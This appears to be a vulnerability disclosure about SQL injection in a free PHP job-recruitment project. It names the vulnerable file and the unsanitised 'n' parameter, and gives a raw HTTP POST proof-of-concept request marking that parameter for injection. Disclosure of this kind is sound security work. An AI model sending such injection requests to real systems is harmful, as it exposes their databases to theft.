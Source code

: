 # job-recruitment-in-php has sql injection vulnerability in /\_parse/\_call_job_search_ajax.php

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
/\_parse/\_call_job_search_ajax.php

## describe

An unrestricted SQL injection attack exists in a job-recruitment in /\_parse/\_call_job_search_ajax.php . The parameters that can be controlled are as follows:  $j1 parameter . This function executes the jobtitle parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $j1 = $_REQUEST['n']  is obtained in the function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241231163353681](https://github.com/user-attachments/assets/83014898-890e-493a-b0b2-1e240271f241)

## POC

```
POST /_parse/_call_job/search_ajax.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

n=2*
```

**Result**

![image-20241231163630981](https://github.com/user-attachments/assets/c4da48d6-d381-44a0-b699-5ea98a5e15e8)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤